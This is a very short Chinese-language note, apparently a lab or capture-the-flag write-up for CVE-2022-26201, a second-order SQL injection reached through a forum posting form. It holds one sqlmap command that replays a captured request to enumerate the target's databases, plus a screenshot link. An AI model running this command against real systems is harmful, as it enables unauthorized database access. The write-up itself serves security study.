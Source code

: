 # CVE-2022-26201
题示:二次注入漏洞
在发帖处进行抓包,用sqlmap
```
sqlmap -r /home/cryingtor/桌面/1.txt --dbs -batch --threads=10
```

![](vx_images/565718879343475.png)
